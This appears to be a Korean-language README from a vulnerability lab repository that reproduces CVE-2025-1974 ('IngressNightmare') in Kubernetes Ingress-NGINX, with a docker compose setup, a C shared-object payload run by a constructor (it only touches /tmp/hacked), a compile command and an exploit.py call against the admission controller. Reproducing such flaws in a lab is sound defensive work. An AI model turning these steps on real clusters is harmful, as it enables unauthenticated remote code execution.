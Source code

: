 # Kubernets Ingress-NGINX 인증되지 않은 원격 코드 실행(CVE-2025-1974)

Ingress-NGINX: NGINX를 역방향 프록시 및 로드 밸런서로 사용하는 Kubernetes 용 인그레스 컨트롤러

"IngressNightmare" 취약점(CVE-2025-1974)은 수신되는 Ingree 리소스의 유효성을 검사하는 쿠버네티스의 핵심 보안 메커니즘인 Ingress-NGINX Admission Controller 의 치명적인 결함에서 비롯된다.

이 컨트롤러는 인증 없이도 네트워크에 노출되어 공격자가 악성 AdmissionReview 요청을 조작하고 Ingress 리소스에 무단 구성을 삽입할 수 있도록 한다.

다른 취약점(CVE-2025-24514, CVE-2024-1097 또는 CVE-2025-1098)과 연계될 경우 원격 코드 실행으로 이어질 수 있다.

일부 악용 가능한 체인은 다음과 같다.

CVE-2025-1974+CVE-2025-24514: <kdb>auth-url</kdb> 주석 주입을 통한 RCE

CVE-2025-1974+CVE-2025-1097: <kdb>auth-tls-match-cn</kdb> 주석을 통한 RCE

CVE-2025-1974+CVE-2025-1098: 이미지 UID 남용을 통한 RCE

## 환경 설정
취약점을 시뮬레이션 하기 위해 단순성을 위해 K3s 기반 Kubernetes 환경이 사용된다

```
docker compose up -d
```

쿠버네티스 API가 준비되고 Ingress-nginx 컨트롤러가 시작될 때까지 기다린다.
환경이 시작되면, Ingress-NGINX는 30080번과 30443번 포트(TLS)에서 수신 대기하고, Ingress-NGINX Admission Controller는 30443번 포트이다.

## 취약성 재생산
<kbd>.so</kbd> 먼저, 컨테이너의 아키텍처와 일치하는 공유 객체( ) 페이로드를 컴파일해야 한다.
```
#include<stdio.h>
#include<stdlib.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    system("touch /tmp/hacked");
}
```

1. 소스 코드 컴파일

```
gcc -shared -fPIC -o shell.so shell.c
```

2. 위의 소스 코드를 적절한 환경으로 컴파일한 후 exploit.py를 사용하여 취약점을 악용

```
python exploit.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
```
<kbd>AdmissionReview</kbd> exploit은 NGINX가 악성 동적 공유 객체를 로드하도록 강제하는 지시어 주입 요청을 위조하여 작동한다.

exploit이 성공하면 ingress-nginx 컨테이너 내부에 파일이 <kbd>ssl_engine</kbd> 생성되는 것을 확인할 수 있다.








